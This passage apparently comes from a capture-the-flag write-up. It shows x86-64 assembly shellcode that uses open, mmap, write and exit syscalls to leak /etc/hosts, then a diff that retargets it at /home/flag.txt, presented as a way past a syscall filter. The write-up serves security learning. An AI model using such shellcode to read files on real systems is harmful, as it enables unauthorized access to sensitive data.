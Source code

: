 ```assembly
.globl _start
_start:
        // open
	movw $0x7374, %r11w             /* ts */
	push %r11
	movq $0x736f682f6374652f, %r11  /* /etc/hos */
	push %r11
	lea 0(%rsp), %rdi
	xor %rsi, %rsi
	addb $2, %al
	syscall

	// mmap
	xor %rdi, %rdi
	xor %rsi, %rsi
	mov $0xffff, %si
	xor %rdx, %rdx
	add $1, %dl
	mov %rax, %r8
	xor %r9, %r9
	xor %r10, %r10
	add $1, %r10b
	xor %rax, %rax
	mov $9, %al
	syscall

	// write
	xor %rdi, %rdi
	inc %dl
	mov %rax, %rsi
	xor %rdx, %rdx
	mov $0xffff, %dx
	xor %rax, %rax
	inc %al
	syscall

	// exit
	xor %rdi, %rdi
	mov $3, %dl
	xor %rax, %rax
	mov $60, %al
	syscall
```

This snippet just uses `open`, `mmap`, `write` and `exit` to leak the contents of `/etc/hosts`. All the syscalls are allowed in our case, so we just need to change the target file and compile.

At first we might be tempted to just change the filename from `/etc/hosts` to `/home/flag.txt` and compile the program:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Pattern_Institute]
└─$ diff read-with-mmap.s solve.s
4c4
<       movw $0x7374, %r11w             /* ts */
---
>       mov $0x7478742e6761, %r11             /* ag.txt */
6c6
<       movq $0x736f682f6374652f, %r11  /* /etc/hos */
---
>       movq $0x6c662f656d6f682f, %r11  /* /home/fl */
42a43
>

```